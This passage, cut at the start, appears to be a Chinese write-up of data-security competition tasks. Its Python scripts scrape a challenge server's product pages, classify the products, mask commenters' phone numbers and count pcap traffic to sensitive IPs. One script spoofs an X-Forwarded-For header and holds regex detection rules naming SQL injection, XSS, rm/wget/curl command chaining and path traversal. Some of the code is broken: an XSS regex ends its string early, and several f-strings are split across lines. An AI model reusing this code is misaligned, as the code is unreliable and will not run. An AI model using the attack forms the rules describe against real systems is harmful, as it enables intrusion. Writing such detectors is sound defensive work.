          '水管配件', '阀门', '密封胶', '膨胀螺栓', '绝缘胶带']),
]
```

给出代码：

```
import re
import logging
from typing import List, Tuple, Optional
from urllib.parse import urljoin

import pandas as pd
import requests
from bs4 import BeautifulSoup
from tqdm import tqdm

# 配置日志
logging.basicConfig(
    level=logging.INFO,
    format='%(asctime)s - %(levelname)s - %(message)s'
)
logger = logging.getLogger(__name__)


class Config:
    """集中管理配置参数"""
    BASE_DOMAIN = "http://47.117.190.214:32800/"
    ENDPOINT = "/index.php"
    REQUEST_TIMEOUT = 15
    MAX_PRODUCTS = 500
    OUTPUT_FILE = "submit_2.csv"
    HEADERS = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 "
                      "(KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36"
    }

    @classmethod
    def full_url(cls) -> str:
        """生成完整请求URL"""
        return urljoin(cls.BASE_DOMAIN, cls.ENDPOINT)


# 分类关键词映射表（优先级从高到低）
CATEGORY_KEYWORDS = [
    (11, ['热水器', '速热', '恒温', '防干烧', '即热式', '储水式', '电热水器', '燃气热水器',
          '太阳能热水器', '空气能热水器', '壁挂炉', '热水系统', '回水装置', '恒温阀',
          '镁棒', '防电墙', '速热电热水器', '零冷水', '预即双模']),

    (16, ['汽车', '车载', '机油', '轮胎', '变速箱', '刹车片', '雨刷', '火花塞', '滤清器',
          '蓄电池', '行车记录仪', '车载充电器', '汽车贴膜', '脚垫', '方向盘套', '防冻液',
          '玻璃水', '悬挂系统', '涡轮增压', '四轮定位', '钣金喷漆', '汽车美容', '车衣']),

    (15, ['玩具', '乐高', '积木', '钢琴', '吉他', '拼图', '遥控车', '芭比娃娃', '变形金刚',
          '拼装模型', '益智玩具', '早教机', '磁力片', '轨道车', '毛绒玩具', '电子琴', '小提琴',
          '架子鼓', '尤克里里', '口琴', '音乐盒', '画板', '橡皮泥', '沙滩玩具']),

    (22, ['医疗', '体温计', '血压仪', '轮椅', '助行器', '血糖仪', '制氧机', '雾化器', '听诊器',
          '医用口罩', '防护服', '手术刀', '针灸针', '理疗仪', '康复设备', '助听器', '呼吸机',
          '护理床', '血压计', '血氧仪', '消毒柜', '医用纱布', '棉签', '创可贴']),

    (23, ['花卉', '绿植', '多肉', '盆栽', '种子', '花盆', '营养土', '园艺剪', '喷壶', '花架',
          '观叶植物', '鲜花', '干花', '花肥', '杀虫剂', '生根粉', '育苗盘', '苔藓微景观',
          '水培植物', '兰花', '仙人掌', '绿萝', '富贵竹', '发财树', '文竹']),

    (25, ['园艺工具', '洒水器', '铲子', '花盆', '营养土', '修枝剪', '嫁接刀', '园艺手套',
          '割草机', '绿篱机', '树枝粉碎机', '园艺锯', '松土器', '育苗箱', '自动喷灌',
          '园艺支架', '接水盘', '播种器', '园艺地布', '防草布', '智能花盆', '植物补光灯']),

    (2, ['母婴', '奶粉', '尿不湿', '婴儿车', '奶瓶', '吸奶器', '孕妇装', '待产包', '婴儿床',
         '学步车', '儿童餐椅', '隔尿垫', '哺乳枕', '温奶器', '婴儿背带', '防溢乳垫',
         '婴儿湿巾', '婴儿沐浴露', '护臀膏', '婴儿理发器', '早教玩具', '婴儿监护器']),

    (1, ['手机', '5G', '智能机', '曲面屏', '骁龙', '全面屏', '快充', '双卡双待', '游戏手机',
         '拍照手机', '防水手机', '折叠屏', 'AMOLED', '屏下指纹', '液冷散热', '超级快充',
         '升降摄像头', 'HiFi音质', 'NFC功能', '无线充电', '移动电源', '手机壳']),

    (6, ['厨房', '炒锅', '菜刀', '砧板', '洗碗机', '电饭煲', '微波炉', '压力锅', '榨汁机',
         '空气炸锅', '料理机', '破壁机', '蒸烤箱', '油烟机', '燃气灶', '消毒柜', '绞肉机',
         '烘焙模具', '厨房秤', '磨刀器', '沥水篮', '保鲜盒', '厨房置物架']),

    (20, ['户外', '帐篷', '登山杖', '睡袋', '冲锋衣', '登山鞋', '户外背包', '野餐垫',
          '烧烤架', '露营灯', '指南针', '求生哨', '军刀卡', '速干衣', '抓绒衣', '攀岩绳',
          '冰爪', '滑雪板', '钓鱼竿', '浮潜面镜', '登山扣', '头灯', '户外水壶']),

    (10, ['运动', '跑步机', '瑜伽垫', '哑铃', '泳镜', '健身车', '椭圆机', '仰卧板',
          '运动护具', '拉力器', '跳绳', '羽毛球拍', '乒乓球桌', '足球鞋', '篮球架',
          '运动手环', '计步器', '筋膜枪', '运动水壶', '运动毛巾', '运动背包']),

    (21, ['珠宝', '钻石', '黄金', '翡翠', '铂金', 'K金', '珍珠', '和田玉', '琥珀',
          '蜜蜡', '珊瑚', '绿松石', '红宝石', '蓝宝石', '祖母绿', '婚戒', '吊坠',
          '手链', '耳环', '胸针', '转运珠', '生肖挂件', '文玩核桃']),

    (14, ['酒水', '红酒', '白酒', '威士忌', '啤酒', '黄酒', '清酒', '伏特加', '朗姆酒',
          '鸡尾酒', '起泡酒', '香槟', '精酿啤酒', '果酒', '保健酒', '酒具', '醒酒器',
          '红酒杯', '酒柜', '酒窖', '年份酒', '原浆酒']),

    (5, ['蔬菜', '有机', '绿叶菜', '西红柿', '黄瓜', '胡萝卜', '土豆', '辣椒', '茄子',
         '西兰花', '菠菜', '芹菜', '莲藕', '菌菇', '豆角', '南瓜', '山药', '芦笋',
         '秋葵', '娃娃菜', '冰草', '羽衣甘蓝', '芽苗菜']),

    (8, ['水果', '进口', '榴莲', '车厘子', '蓝莓', '草莓', '芒果', '奇异果', '山竹',
         '菠萝蜜', '牛油果', '莲雾', '释迦果', '火龙果', '椰子', '百香果', '番石榴',
         '杨桃', '枇杷', '西梅', '无花果', '人参果']),

    (4, ['书籍', '小说', '教材', '儿童读物', '科技', '文学', '历史', '哲学', '心理学',
         '经济学', '计算机', '编程', '医学', '法律', '建筑', '艺术', '摄影', '旅游指南',
         '字帖', '绘本', '百科全书', '字典', '考试用书']),

    (24, ['游戏', 'PS5', 'Switch', 'Xbox', '手柄', '游戏卡带', '游戏光盘', '电竞椅',
          '游戏鼠标', '机械键盘', '游戏耳机', 'VR设备', '游戏周边', '手办', '游戏点卡',
          '游戏加速器', '游戏皮肤', '游戏账号', 'MOD工具', '游戏攻略书']),

    (12, ['彩妆', '口红', '粉底', '眼影', '眉笔', '腮红', '遮瑕', '化妆刷', '美妆蛋',
          '定妆喷雾', '睫毛膏', '眼线笔', '修容棒', '高光', '妆前乳', '卸妆水', '美瞳',
          '假睫毛', '美甲贴', '化妆镜', '美容工具', '香水']),

    (17, ['床上用品', '四件套', '羽绒被', '枕头', '床垫', '蚕丝被', '乳胶枕', '凉席',
          '床褥', '床笠', '被套', '枕套', '蚊帐', '电热毯', '记忆棉', '榻榻米',
          '床幔', '靠垫', '抱枕', '床尾凳', '布艺床']),

    (18, ['洗护', '洗发水', '沐浴露', '牙膏', '洗面奶', '护发素', '身体乳', '洗手液',
          '洗衣液', '柔顺剂', '消毒液', '洁厕灵', '厨房清洁剂', '玻璃水', '除霉剂',
          '空气清新剂', '香薰', '除螨仪', '洗衣凝珠', '衣物除菌液']),

    (7, ['办公', '打印机', '投影仪', '复印纸', '文件夹', '订书机', '碎纸机', '考勤机',
         '白板', '会议电话', '文件柜', '保险箱', '装订机', '标签机', '支票打印机',
         '扫描仪', '指纹打卡机', '办公沙发', '会议桌', '办公隔断']),

    (3, ['家居', '沙发', '茶几', '窗帘', '地毯', '衣柜', '餐桌', '电视柜', '鞋柜',
         '置物架', '装饰画', '花瓶', '壁纸', '灯具', '智能门锁', '晾衣架', '收纳盒',
         '墙贴', '门垫', '家居摆件', '香炉']),

    (9, ['宠物', '猫粮', '狗粮', '宠物窝', '牵引绳', '猫砂', '宠物玩具', '宠物衣服',
         '宠物浴液', '驱虫药', '宠物笼', '食盆', '自动喂食器', '猫抓板', '宠物推车',
         '宠物背包', '宠物美容', '宠物医院', '宠物殡葬', '宠物芯片']),

    (13, ['保健', '鱼油', '维生素', '钙片', '蛋白粉', '益生菌', '褪黑素', '护肝片',
          '胶原蛋白', '葡萄籽', '辅酶Q10', '氨糖', '膳食纤维', '蜂胶', '冬虫夏草',
          '阿胶', '燕窝', '人参', '灵芝孢子粉', '按摩器', '足浴盆']),

    (19, ['五金', '螺丝刀', '电钻', '扳手', '工具箱', '角磨机', '电锤', '切割机',
          '水平仪', '卷尺', '钳子', '焊枪', '砂轮机', '冲击钻', '电动螺丝刀', '开孔器',
          '水管配件', '阀门', '密封胶', '膨胀螺栓', '绝缘胶带']),
]

def match_category(product_name: str) -> int:
    """智能分类匹配算法"""
    clean_name = product_name.lower()
    for category_id, keywords in CATEGORY_KEYWORDS:
        if any(kw in clean_name for kw in keywords):
            return category_id
    return 0  # 未匹配分类


def parse_sales(text: str) -> int:
    """精准解析销量数值"""
    try:
        # 直接提取标签内容中的纯数字
        return max(int(text.strip()), 0)
    except Exception as e:
        # 双重保障：正则提取
        numbers = re.findall(r'\d+', text)
        return int(numbers[0]) if numbers else 0


def fetch_product_info(session: requests.Session, product_id: int) -> Optional[Tuple]:
    """获取并解析商品信息（增强描述解析版）"""
    params = {
        "controller": "product",
        "action": "detail",
        "id": product_id
    }

    try:
        response = session.get(
            Config.full_url(),
            params=params,
            timeout=Config.REQUEST_TIMEOUT
        )
        response.raise_for_status()
        soup = BeautifulSoup(response.text, 'html.parser')

        # 解析商品名称
        name_tag = soup.find('h1', {'class': 'product-name'})
        product_name = name_tag.text.strip() if name_tag else ""

        # 新增：解析商品描述（关键修改点）
        desc_tag = soup.find('div', {'class': 'product-description'})
        product_desc = desc_tag.find('p').text.strip() if desc_tag else ""

        # 合并名称和描述进行匹配
        match_text = f"{product_name} {product_desc}".lower()

        # 解析销量信息
        sales_tag = soup.find('span', {'id': 'productSales'})
        sales_text = sales_tag.text.strip() if sales_tag else "0"
        sales = parse_sales(sales_text)

        # 解析评论数量
        reviews_tag = soup.find('div', {'class': 'reviews-container'})
        reviews_number = len(reviews_tag.find_all('div', class_='review-item')) if reviews_tag else 0

        # 分类匹配（使用合并文本）
        category_id = match_category(match_text)  # 这里传入合并后的文本

        return (product_id, sales, category_id, reviews_number)

    except requests.exceptions.HTTPError as e:
        logger.warning(f"商品 {product_id} 请求失败: HTTP {e.response.status_code}")
    except Exception as e:
        logger.error(f"处理商品 {product_id} 时发生异常: {str(e)}")

    return None


def data_validation(df: pd.DataFrame) -> pd.DataFrame:
    """数据完整性校验"""
    # 处理未匹配分类
    df['category_id'] = df['category_id'].replace(0, 25)  # 默认归类到园艺

    # 处理异常评论数
    df['reviews_number'] = df['reviews_number'].clip(lower=0)

    return df.sort_values('product_id')


def main():
    """主处理流程"""
    product_data = []

    with requests.Session() as session:
        session.headers.update(Config.HEADERS)

        # 带重试机制的爬取
        for product_id in tqdm(range(1, Config.MAX_PRODUCTS + 1), desc="处理商品"):
            for retry in range(3):
                if info := fetch_product_info(session, product_id):
                    product_data.append(info)
                    break
                else:
                    logger.warning(f"商品 {product_id} 第 {retry + 1} 次重试")

    if not product_data:
        logger.error("未获取到有效数据")
        return

    # 数据加工
    df = pd.DataFrame(
        product_data,
        columns=['product_id', 'sales', 'category_id', 'reviews_number']
    )

    df = data_validation(df)

    # 保存结果
    df.to_csv(Config.OUTPUT_FILE, index=False, encoding='utf-8')
    logger.info(f"成功生成文件 {Config.OUTPUT_FILE}，记录数: {len(df)}")


if __name__ == "__main__":
    main()

```

### 3

和上面两个逻辑差不多，只是需要对user-agent进行检测即可。

```
import re
import logging
from typing import Dict, List, Optional
from urllib.parse import urljoin
import pandas as pd
import requests
from bs4 import BeautifulSoup
from tqdm import tqdm

# 配置日志
logging.basicConfig(
    level=logging.INFO,
    format='%(asctime)s - %(levelname)s - %(message)s'
)
logger = logging.getLogger(__name__)


class SecurityConfig:
    """安全检测配置"""
    BASE_URL = "http://47.117.190.214:32800/index.php"
    PARAMS = {
        "controller": "product",
        "action": "detail",
        "id": None  # 动态填充商品ID
    }
    REQUEST_TIMEOUT = 20
    MAX_RETRIES = 3
    OUTPUT_FILE = "submit_3.csv"
    MAX_FAILURES = 10  # 连续失败阈值
    HEADERS = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36",
        "X-Forwarded-For": "202.96.128.86"
    }


# 恶意代码检测规则库（可动态更新）
MALICIOUS_PATTERNS = [
    # SQL注入检测
    (r"\b(union\s+select|insert\s+into|update\s+\w+\s+set|drop\s+table|"
     r"exec(\s|\+)+(s|x)p\w+)", re.I),

    # XSS检测
    (r"(<script[^>]*>.*?</script>|javascript:\w+|"
     r"on(mouseover|click|load)\s*=\s*["']?\w+["']?)", re.I),

    # 命令执行检测
    (r"(;|\||&|`)\s*(rm|wget|curl|ftp|powershell)\b", re.I),

    # 路径遍历检测
    (r"(\.\./\.\./|file:\/\/|\x[0-9a-f]{2})", re.I)
]


def desensitize_phone(raw_phone: str) -> str:
    """手机号脱敏处理（增强鲁棒性）"""
    clean_phone = re.sub(r"\D", "", raw_phone)
    if len(clean_phone) != 11 or not clean_phone.startswith(('13', '14', '15', '16', '17', '18', '19')):
        logger.warning(f"无效手机号格式: {raw_phone}")
        return "INVALID"
    return f"{clean_phone[:3]}****{clean_phone[-4:]}"


def detect_malicious(user_agent: str) -> bool:
    """深度恶意代码检测（支持动态更新规则）"""
    return not any(
        re.search(pattern, user_agent, flags)
        for pattern, flags in MALICIOUS_PATTERNS
    )


def parse_user_comments(html: str) -> List[Dict]:
    """精准解析用户评论数据"""
    soup = BeautifulSoup(html, 'html.parser')
    users = []

    for comment in soup.select('div.review-item'):
        try:
            # 解析用户ID
            user_id_tag = comment.find('span', class_='user-id')
            user_id = int(re.search(r"\d+", user_id_tag.text).group()) if user_id_tag else None

            # 解析手机号
            phone_tag = comment.find('span', class_='reviewer-phone')
            raw_phone = re.search(r"\d{11}", phone_tag.text).group() if phone_tag else ""

            # 解析User-Agent
            ua_tag = comment.find('span', class_='user-agent')
            user_agent = re.split(r"[:：]", ua_tag.text, 1)[-1].strip() if ua_tag else ""

            if user_id and raw_phone:
                users.append({
                    "user_id": user_id,
                    "raw_phone": raw_phone,
                    "user_agent": user_agent
                })
        except Exception as e:
            logger.error(f"评论解析异常: {str(e)}")

    return users


def fetch_product_users(session: requests.Session, product_id: int) -> List[Dict]:
    """采集商品页关联用户数据（自动重试机制）"""
    params = SecurityConfig.PARAMS.copy()
    params["id"] = product_id

    for attempt in range(SecurityConfig.MAX_RETRIES):
        try:
            response = session.get(
                SecurityConfig.BASE_URL,
                params=params,
                timeout=SecurityConfig.REQUEST_TIMEOUT
            )
            response.raise_for_status()
            return parse_user_comments(response.text)
        except requests.HTTPError as e:
            logger.warning(f"商品 {product_id} 请求失败: HTTP {e.response.status_code}")
            if e.response.status_code == 404:
                return []
        except Exception as e:
            logger.warning(f"商品 {product_id} 第 {attempt + 1} 次失败: {str(e)}")

    logger.error(f"商品 {product_id} 无法获取数据")
    return []


def security_processing() -> pd.DataFrame:
    """主安全处理流程"""
    user_records = []
    consecutive_failures = 0
    product_id = 1

    with requests.Session() as session:
        session.headers.update(SecurityConfig.HEADERS)

        with tqdm(desc="扫描商品", unit="page") as pbar:
            while consecutive_failures < SecurityConfig.MAX_FAILURES:
                # 采集当前商品用户数据
                users = fetch_product_users(session, product_id)

                if users:
                    consecutive_failures = 0
                    user_records.extend(users)
                else:
                    consecutive_failures += 1

                # 更新进度信息
                pbar.update(1)
                pbar.set_postfix({
                    "当前商品": product_id,
                    "有效用户": len(user_records),
                    "连续失败": consecutive_failures
                })

                product_id += 1

    # 数据去重与格式转换
    df = pd.DataFrame(user_records).drop_duplicates('user_id')
    if not df.empty:
        df['desensitization'] = df['raw_phone'].apply(desensitize_phone)
        df['code_check'] = df['user_agent'].apply(
            lambda x: "FALSE" if x and not detect_malicious(x) else "TRUE"
        )
        return df.sort_values('user_id')[['user_id', 'desensitization', 'code_check']]
    return pd.DataFrame(columns=['user_id', 'desensitization', 'code_check'])


if __name__ == "__main__":
    try:
        result_df = security_processing()

        # 数据校验
        valid_df = result_df[result_df['desensitization'] != "INVALID"]
        valid_df.to_csv(SecurityConfig.OUTPUT_FILE, index=False, encoding='utf-8')

        logger.info(f"生成安全报告成功，有效用户 {len(valid_df)} 个")
        logger.info(f"检测到风险设备 {len(valid_df[valid_df['code_check'] == 'FALSE'])} 例")

    except Exception as e:
        logger.error(f"处理流程异常终止: {str(e)}")
        exit(1)

```

# 数据跨境

1

根据题目要求写出脚本即可：

```
import json
from collections import defaultdict
from scapy.all import rdpcap
import re

# 文件路径配置（请确认实际路径）
SENSITIVE_JSON = r"C:\Users\Administrator\Downloads\16\16\1\16\1.json"
PCAP_FILE = r"C:\Users\Administrator\Downloads\16\16\1\16\1.pcap"


def load_sensitive_list():
    """解析多层嵌套JSON结构"""
    ip_domain = {}
    try:
        with open(SENSITIVE_JSON, 'r', encoding='utf-8') as f:
            data = json.load(f)

            # 遍历所有分类
            for category in data['categories'].values():
                # 提取每个分类下的域名列表
                domains = category.get('domains', {})
                for domain, ip in domains.items():
                    # 验证IP格式
                    if re.match(r'^\d+\.\d+\.\d+\.\d+$', ip):
                        ip_domain[ip] = domain
                    else:
                        print(f"警告：无效IP格式 {ip} 对应域名 {domain}")

            print(f"成功加载 {len(ip_domain)} 个有效IP映射")
            return ip_domain

    except Exception as e:
        print(f"JSON解析失败: {str(e)}")
        return None


def analyze_pcap():
    """分析PCAP文件"""
    try:
        ip_domain = load_sensitive_list()
        if not ip_domain:
            return

        # 初始化统计
        access_stats = defaultdict(int)
        total_packets = 0
        matched_packets = 0

        # 使用更高效的PcapReader逐包处理
        packets = rdpcap(PCAP_FILE)
        print(f"
开始分析 {len(packets)} 个数据包...")

        for pkt in packets:
            total_packets += 1
            if pkt.haslayer('IP'):
                dst_ip = pkt['IP'].dst
                if dst_ip in ip_domain:
                    access_stats[dst_ip] += 1
                    matched_packets += 1

        # 输出基础统计
        print(f"
分析完成: 共处理{total_packets}个包，匹配到{matched_packets}个敏感流量包")

        if not access_stats:
            print("未发现敏感IP访问")
            return

        # 找出最高频访问
        max_count = max(access_stats.values())
        results = [(ip, count) for ip, count in access_stats.items() if count == max_count]

        # 格式化输出
        print("
最高频访问记录:")
        for ip, count in results:
            print(f"{ip_domain[ip]}:{ip}:{count}")

    except Exception as e:
        print(f"流量分析异常: {str(e)}")


if __name__ == "__main__":
    analyze_pcap()

```
